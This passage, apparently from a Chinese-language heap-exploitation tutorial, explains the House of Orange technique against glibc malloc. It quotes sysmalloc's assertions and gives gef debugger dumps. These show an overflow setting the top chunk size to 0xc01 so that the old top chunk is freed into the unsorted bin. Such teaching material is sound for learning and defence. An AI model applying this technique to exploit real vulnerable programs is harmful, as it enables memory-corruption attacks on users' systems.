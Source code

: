 当然，还得绕过下面两个限制条件：

```c
  /*
     If not the first time through, we require old_size to be
     at least MINSIZE and to have prev_inuse set.
   */

  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));

  /* Precondition: not enough current space to satisfy nb request */
  assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
```

即满足 old_size 小于 `nb+MINSIZE`，`PREV_INUSE` 标志位为 1，`old_top+old_size` 页对齐这几个条件。

首先分配一个大小为 0x400 的 chunk：

```text
gef➤  x/4gx p1-0x10
0x602000:	0x0000000000000000	0x0000000000000401  <-- chunk p1
0x602010:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000020c01  <-- top chunk
0x602410:	0x0000000000000000	0x0000000000000000
```

默认情况下，top chunk 大小为 0x21000，减去 0x400，所以此时的大小为 0x20c00，另外 PREV_INUSE 被设置。

现在假设存在溢出漏洞，可以修改 top chunk 的数据，于是我们将 size 字段修改为 0xc01。这样就可以满足上面所说的条件：

```text
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000000c01  <-- top chunk
0x602410:	0x0000000000000000	0x0000000000000000
```

紧接着，申请一块大内存，此时由于修改后的 top chunk size 不能满足需求，则调用 sysmalloc 的第一种方法扩充 top chunk，结果是在 old\_top 后面新建了一个 top chunk 用来存放 new\_top，然后将 old\_top 释放，即被添加到了 unsorted bin 中：

```text
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000000be1  <-- old top chunk [be freed]
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd1b78      <-- fd, bk pointer
gef➤  x/4gx p1-0x10+0x400+0xbe0
0x602fe0:	0x0000000000000be0	0x0000000000000010  <-- fencepost chunk 1
0x602ff0:	0x0000000000000000	0x0000000000000011  <-- fencepost chunk 2
gef➤  x/4gx p2-0x10
0x623000:	0x0000000000000000	0x0000000000001011  <-- chunk p2
0x623010:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx p2-0x10+0x1010
0x624010:	0x0000000000000000	0x0000000000020ff1  <-- new top chunk
0x624020:	0x0000000000000000	0x0000000000000000
gef➤  heap bins unsorted
[ Unsorted Bin for arena 'main_arena' ]
[+] unsorted_bins[0]: fw=0x602400, bk=0x602400
 →   Chunk(addr=0x602410, size=0xbe0, flags=PREV_INUSE)
```
